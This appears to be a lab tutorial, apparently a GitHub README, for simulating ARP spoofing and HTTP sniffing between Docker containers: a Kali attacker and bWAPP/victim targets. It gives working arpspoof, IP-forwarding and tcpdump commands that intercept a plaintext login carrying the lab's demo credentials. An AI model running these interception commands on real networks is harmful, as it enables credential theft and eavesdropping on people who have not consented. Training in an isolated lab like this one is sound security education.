
---

### ✅ Objective

Simulate a **MitM attack** — for example, **ARP spoofing**, **HTTP sniffing**, or **DNS spoofing** — from the **Kali** container targeting traffic between `bwa` and `mysql`, or between `victim` and others.

---



## Why Use Docker for MITM Simulations?

Docker provides an ideal environment for simulating man-in-the-middle (MITM) attacks because it allows you to quickly create isolated, reproducible, and controlled network setups. By running multiple containers connected to a private Docker network, you can mimic real-world network interactions safely without risking your host system. Docker’s ability to assign static IPs and isolate network traffic makes it perfect for practicing ARP spoofing, HTTP sniffing, and other MITM techniques in a contained lab environment.



## 🛠️ Step-by-Step Guide

### 1. ✅ Start the Environment

Run the following in the same directory as your `docker-compose.yml`:

```bash
docker-compose up -d
```
![image](screen7.png)

![image](screen6.png)
---

### 2. ✅ Enter the Kali Container

```bash
docker exec -it kali bash
```



```bash
apt update
apt install -y dsniff tcpdump iproute2 iputils-ping net-tools
```

---

### 3. ✅ Enable IP Forwarding

Inside Kali:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



---

### 4. ✅ Perform ARP Spoofing


In Kali:

```bash
arpspoof -i eth0 -t 172.28.0.10 172.28.0.5
```
![image](screen1.png)
In another Kali terminal (or tmux pane):

```bash
arpspoof -i eth0 -t 172.28.0.5 172.28.0.10
```
![image](screen2.png)
Now you’re acting as the man in the middle.

---
### 5. ✅ RUn curl from the victim 

```bash

curl -d "login=bee&password=bug&security_level=0&form=submit" http://172.28.0.10/login.php    
``



### 6. ✅ Sniff the Traffic

Still in Kali, use `tcpdump` to monitor traffic:

```bash
tcpdump -i eth0 -A port 80        # HTTP traffic from bWAPP
```
![image](screen5.png)


---

